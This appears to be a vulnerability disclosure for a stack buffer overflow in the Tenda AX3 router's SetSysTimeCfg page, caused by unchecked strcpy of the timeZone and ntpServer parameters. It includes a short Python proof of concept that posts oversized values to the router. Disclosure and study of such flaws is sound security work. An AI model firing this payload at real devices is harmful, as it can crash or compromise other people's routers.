

# Tenda Router AX3 Vulnerability

There is a vulnerability lies in page `goform/SetSysTimeCfg`,which influences the lastest version of Tenda Router AX3([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html)).

# Description

Vulnerability function `fromSetSysTime`



The `v5` variable is obtained directly from the http request parameter `timeZone`.

The `v7` variable is obtained directly from the http request parameter `ntpServer`. 


This function uses strcpy to copy **the variable v5 to the stack variable &v3** and the **variable v7 to the stack variable &v34[16]** without any sercuity check.


Attacker can construct **a long timeZone parameter or a long ntpServer parameter** in the http request,which causes stack overflow.

Combining the above two vulnerabilities can cause **arbitrary code execution**.

# POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetSysTimeCfg"

timeZone = "a" * 1024

ntpServer = "c" * 1024

r = requests.post(url, data={'timeZone': timeZone,'ntpServer':ntpServer})
print(r.content)
```

# Timeline

- 2022-01-18 report to CNVD & CVE